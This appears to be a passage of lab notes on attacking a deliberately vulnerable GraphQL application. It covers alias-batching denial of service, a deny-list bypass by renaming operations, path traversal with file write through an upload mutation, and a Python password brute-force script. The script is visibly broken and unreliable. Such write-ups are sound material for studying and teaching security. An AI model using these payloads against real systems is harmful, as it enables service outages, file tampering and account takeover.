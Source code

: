 ```
query=query{q1:systemUpdate+q2:systemUpdate+q3:systemUpdate}

```
Means we can create aliases for Objects and as such can do multiple queries of the same type at the same time, If enough queries are made, this can lead to DoS.

**GraphQL Query Deny List Bypass** 

This can be done, if the check is done via operation name, by finding a way to rename the operation. Either via operation name or aliases, for example. This happens because the backend looks for a name which does not exist, as it was renamed by changing the operation name to an arbitrary value or creating an alias for that operation.

```
{
"query":"{q1:systemHealth}"
}

```
or

```
{
"query":"query getPastes{systemHealth}"
}

```

**Arbitrary File Write & Path Traversal**

This happens because there is a sink in the source code which opens a file, allows traversal and then writes to it.

In this case particularly, I can bet its the `open` function of Python with the `w` flag. It takes direct user input onto it and as such we can traverse and write arbitrarily

```
mutation {
  uploadPaste(filename:"../../../../../tmp/file.txt", content:"hi"){
    result
  }
}

```

**GraphQL weak password protection** 

Basically, there is no rate limit checking in place, and as such an attacker can send as many requests as he wants. This means he will be able to crack a password.

Here is an example script:

```
# Brute Force attack with a list of passwords:
passwordlist = ['admin123', 'pass123', 'adminadmin', '123']

for password in passwordlist:
  resp = requests.post('http://host/graphql',
  json = {
    "query":"query {\n  systemDiagnostics(username:\"admin\", password:\"{}\", cmd:\"ls\")\n}".format(password),
    "variables":None
  })

  if not 'errors' in resp.text:
    print('Password is', password
  
```
or you can use CrackQL:
